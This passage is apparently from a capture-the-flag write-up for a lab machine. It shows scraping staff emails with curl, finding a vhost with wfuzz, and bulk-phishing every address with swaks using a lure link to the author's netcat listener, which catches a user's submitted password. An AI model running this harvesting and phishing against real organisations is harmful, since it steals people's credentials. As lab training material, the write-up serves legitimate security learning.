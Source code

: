 We can download all of this itno a file using `curl`.&#x20;

{% code overflow="wrap" %}
```bash
curl http://sneakycorp.htb/team.php | grep '@' | cut -d '>' -f2  | cut -d '<' -f1 > emails
```
{% endcode %}

I did a `wfuzz` scan for directories and vhosts, and did find one:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hw=12 -H 'Host: FUZZ.sneakycorp.htb' -u http://sneakycorp.htb 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://sneakycorp.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000019:   200        340 L    989 W      13737 Ch    "dev" 
```

### Phishing Emails

Based on the name of this machine, I think we have to send emails to all of these and see if anyone clicks on any links that we have sent. This works because the mail ports are open and the machine should be able to receive them.

We can first set up a web listener via `nc -lvnp 80`. Then, we need a way to send the mail to all users at once because there are a load of emails present. I checked Hacktricks and unintentionally a small walkthrough for the machine.&#x20;

{% code overflow="wrap" %}
```bash
swaks --to $(cat emails | tr '\n' ',' | less) --from test@sneakymailer.htb --header "Subject: test" --body "please click here http://10.10.14.13/" --server 10.129.2.28
```
{% endcode %}

I just used this to send my emails easily. After a little bit, on the listener port, I got a callback.

{% code overflow="wrap" %}
```
$ nc -lvnp 80           
listening on [any] 80 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.2.28] 43302
POST / HTTP/1.1
Host: 10.10.14.13
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 185
Content-Type: application/x-www-form-urlencoded

firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```
{% endcode %}
